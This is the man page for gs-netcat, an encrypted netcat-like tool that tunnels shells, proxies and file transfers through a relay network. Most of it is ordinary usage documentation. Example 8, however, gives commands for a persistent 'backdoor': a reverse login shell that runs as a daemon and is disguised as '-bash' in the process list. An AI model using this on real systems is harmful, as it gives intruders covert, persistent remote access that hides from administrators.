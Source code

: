 \# .TH gs-netcat 1 "08 October 2020" "1.0" "gs-netcat man page"
.Dd October 08, 2020
.Dt GS-NETCAT 1
.Os
.Sh NAME
.Nm gs-netcat
.Nd transfer data, forward traffic and execute commands on a remote host. Securely.
.Sh SYNOPSIS
.Nm gs-netcat
.Bk -words
.Op Fl rlgqwCTSDi
.Op Fl s Ar secret
.Op Fl k Ar keyfile
.Op Fl L Ar logfile
.Op Fl d Ar IP
.Op Fl p Ar port
.Op Fl e Ar cmd
.Ek
.Sh DESCRIPTION
The
.Nm
utility is a re-implementation of netcat. It allows two or more users to establish a secure TCP connection with each other in a scenario where all users are behind NAT/Firewall and would not be able to connect to each other directly. Typically a connection between one workstation and another workstation on a different Local Area Network.
.Pp
It uses the Global Socket Relay Network (GSRN) instead of direct TCP connections. Neither workstation needs to open a port in their firewall or accept incoming TCP connections.
.Pp
The connection is end-2-end encrypted using SRP (RFC 5054) with AES-256 and a 4096 Prime. The GSRN sees only the encrypted traffic. 
.Pp
Common uses include:
.Pp
.Bl -bullet -offset indent -compact
.It
simple TCP proxies
.It
PTY shell
.It
File transfer
.It
a SOCKS ProxyCommand for
.Xr ssh 1
.It
and much, much more.
.El
.Pp
.Sh OPTIONS
.Bl -tag -width Ds
.It Fl s Ar secret
A password chosen by the user. Both users need to use the same password to connect.
.It Fl k Ar file
A file containing the password.
.It Fl g
Generate a secure random password and output it to standard output.
.It Fl l
Server mode (listen for GSRN connections). The default mode is client.
.It Fl q
Quite mode. Do not output any warnings or errors.
.It Fl w
Client to wait for the listening server to become available.
.It Fl r
Receive-only. Do not send any data. Terminate when no more data is available for reading.
.It Fl C
Disable encryption and use clear-text instead. Use with caution.
.It Fl T
Use TOR. The
.Nm
tool will connect via TOR to the GSRN. This requires TOR to be installed and running. The IP and PORT of the TOR server can be set using environment variables.
.It Fl S
Server. Act as a Socks4/4a/5 server. Needs -l. The server acts as a Socks4/4a/5 proxy. It allows multiple
.Nm
clients to (securely) relay traffic via the server.
.It Fl D
Server. Daemon & Watchdog mode.
.Nm
will run as a background process and restart itself if killed.
.It Fl e Ar cmd
Server. Execute command and send output to the connected client.
.It Fl d Ar ip
IPv4 address for port forwarding.
.It Fl p Ar port
TCP port to listen on or to forward traffic to.
.It Fl i
Interactive login shell. The server spawns a true PTY login shell. The client acts as a true PTY client (with Ctrl-C etc working). The client can terminate the session by typing \'~.\' at any time or by typing \'exit\'. The server supports multiple clients at the same time.
.El

.Pp
.Ar port
can be a numerical value between 1-65535.
.Sh EXAMPLES
.Nm Example 1
- Listen for a new connection using the password \'MySecret\':
.Dl $ gs-netcat -s MySecret -l
.Pp
Connect with client using the same password:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 2
- spawn a PTY login shell when a client connects:
.Dl $ gs-netcat -s MySecret -l -i
.Pp
Log in to server\'s interactive shell:
.Dl $ gs-netcat -s MySecret -i
.Pp
.Nm Example 3
- Execute a command when a client connects:
.Dl $ gs-netcat -s MySecret -l -e \'echo hello world; id; exit\'
.Pp
Connect client to the server:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 4
- Pipe data from client to server:
.Dl $ gs-netcat -s MySecret -l -r >warez.tar.gz
.Pp
Client to read \'warez.tar.gz\' and pipe it to the server.
.Dl $ gs-netcat -s MySecret <warez.tar.gz
.Pp
.Nm Example 5
- Server to act as a Socks4/4a/5 server:
.Dl $ gs-netcat -s MySecret -l -S
.Pp
Client to listen on TCP port 1080 and forward any new connection to the server\'s Socks server:
.Dl $ gs-netcat -s MySecret -p 1080
.Pp
.Nm Example 6
- TCP Port Forward all connections to 192.168.6.7:22. Server:
.Dl $ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
.Pp
Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.
.Dl $ gs-netcat -s MySecret -p 2222
.Dl $ ssh -p 2222 root@127.0.0.1
.Pp
The same using 1 command:
.Dl $ ssh -o ProxyCommand=\'gs-netcat -s MySecret\' root@ignored
.Pp
.Nm Example 7
- Creating an SFTP server using gs-netcat:
.Dl $ gs-netcat -s MySecret -l -e /usr/lib/sftp-server
.Pp
The sftp-server binary speaks the sftp-protocol to stdin/stdout. The sftp binary also speaks sftp-protocol to stdin/stdout. The tool can be used to connect both via GSRN (encrypted) and access the SFTP server running on the server's side from the client via the GSRN (encrypted).:
.Dl $ export GSOCKET_ARGS=\'-s MySecret\'
.Dl $ sftp -D gs-netcat
.Pp
.Nm Example 8
- Encrypted Reverse PTY shell hidden as \'-bash\' in the process list - also known as \'backdoor\':
.Dl $ export GSOCKET_ARGS=\'-s MySecret -l -i -D\'
.Dl $ exec -a -bash gs-netcat &
.Pp
Client to connect to the backdoor:
.Dl $ gs-netcat -s MySecret -i


.Sh ENVIRONMENT
The following environment variables can be set to control the behavior of
.Nm
.Pp
.Nm GSOCKET_SOCKS_IP
.Dl Specify the IP address of the TOR server (or any other SOCKS server). Default is 127.0.0.1.
.Pp
.Nm GSOCKET_SOCKS_PORT
.Dl The port number of the TOR server (or any other SOCKS server). Default is 9050.
.Pp
.Nm GSOCKET_ARGS
.Dl A string containing additional command line parameters. First the normal command line parameters are processed and then the command line parameters from GSOCKET_ARGS.

.Sh SECURITY
Passing the password as command line parameter is not secure. Consider using the -k option or GSOCKET_ARGS or enter the password when prompted:
.Pp
.Dl $ gs-netcat -k <file>
.Pp
.Dl $ export GSOCKET_ARGS="-s MySecret"
.Dl $ gs-netcat
.Pp
.Nm 1.
The security is end-2-end. This means from User-2-User (and not just to the GSRN). The GSRN relays only (encrypted) data to and from the users.
.Pp
.Nm 2.
The session is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password). It uses OpenSSL\'s SRP with AES-256 and a 4096 Prime.
.Pp
.Nm 3.
The password can be \'weak\' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
.Pp
.Nm 4.
Do not use stupid passwords like \'password123\'. Malice might pick the same (stupid) password by chance and connect. If in doubt use gs-netcat -g to generate a strong one. Alice\'s and Bob\'s password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
.Pp
.Nm 5.
If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
.Pp
.Nm 6.
Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a <token> if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
.Pp
.Nm 7.
SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.

.Sh NOTES
The latest version is available from https://github.com/hackerschoice/gsocket/.

.Sh SEE ALSO
nc(1)

.Sh BUGS
Efforts have been made to have
.Nm
"do the right thing" in all its various modes. If you believe that it is doing the wrong thing under whatever circumstances, please notify me (skyper@thc.org) and tell me how you think it should behave.